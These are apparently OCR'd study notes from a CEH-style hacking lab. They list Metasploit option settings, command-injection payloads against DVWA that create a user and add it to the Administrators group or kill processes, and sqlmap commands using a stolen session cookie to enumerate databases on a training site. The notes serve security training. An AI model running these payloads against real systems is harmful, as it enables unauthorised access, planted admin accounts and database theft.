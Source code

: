 - **set RHOST 10.10.10.16**

- **set RPORT 8080**

- **set TARGETURI** **http://10.10.10.16:8080/CEH**

- **set USERNAME admin**

- run

- Find the credential

**Lab2-Task6: Exploit a Remote Command Execution Vulnerability to
Compromise a Target Web Server (DVWA low level security)**

- If found command injection vulnerability in an input textfield

- hostname

- whoami

- **\| tasklist\| Taskkill /PID /F**

  - **/PID: Process ID value od the process**

  - **/F: Forcefully terminate the process**

- dir C:\\

- **\| net user**

- **\| net user user001 /Add**

- **\| net user user001**

- **\| net localgroup Administrators user001 /Add**

- Use created account user001 to log in remotely

**Module 15: SQL Injection**

**Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract
Databases using sqlmap**

- Login a website

- Inspect element

- Dev tools-&gt;Console: document.cookie

- **sqlmap -u \"http://www.moviescope.com/viewprofile.aspx?id=1\"
  > --cookie=\"value\" --dbs**

  - **-u: Specify the target URL**

  - **--cookie: Specify the HTTP cookie header value**

  - **--dbs: Enumerate DBMS databases**

- Get a list of databases

- Select a database to extract its tables

- **sqlmap -u \"http://www.moviescope.com/viewprofile.aspx?id=1\"
  > --cookie=\"value\" -D moviescope --tables**
